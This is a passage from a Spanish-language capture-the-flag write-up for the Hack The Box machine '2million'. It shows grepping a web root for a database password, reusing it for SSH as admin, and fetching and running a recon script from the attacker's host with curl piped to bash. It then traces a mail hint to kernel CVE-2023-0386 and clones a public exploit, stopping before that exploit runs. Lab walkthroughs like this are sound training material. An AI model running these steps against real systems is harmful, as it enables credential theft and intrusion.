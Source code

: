 Accedemos como www-data
```bash
www-data@2million:/var/www/html$ ls /var/www/html
assets  controllers  css  Database.php  fonts  images  index.php  js  Router.php  views  VPN
```
Lo que suelo hacer cuando estoy en un directorio web, es buscar por la palabra password (grep recursivo case-insensitive)
```bash
www-data@2million:/var/www/html$ grep -ri "password"
.env:DB_PASSWORD=SuperDuperPass123
...
```
El archivo `.env` es el tiene información de configuración de servidores nginx. Por tanto ya podemos hacer ssh como admin 

```bash
$: ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
...
admin@2million:~$
```
Si subo mi herramienta de reconocimiento [] encuentro que hay un mail

```bash
admin@2million:~$ curl -s 10.10.15.20/lin_info_xii.sh | bash
  >  Mails
/var/mail/.
/var/mail/..
/var/mail/admin
admin@2million:~$ cat /var/mail/*    
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also up
grade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in O
verlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Nos habla de una vulnerabilidad en el kernel relacionado con OverlayFS / FUSE. Buscandolo en internet doy con  el CVE-2023-0386.
En este [repo](https://github.com/sxlmnwb/CVE-2023-0386) dicen como explotarlo . Lo clono a mi kali

```bash
$: git clone https://github.com/sxlmnwb/CVE-2023-0386 &>/dev/null
$: tar -zcvf 2023.tar.gz CVE-2023-0386
```
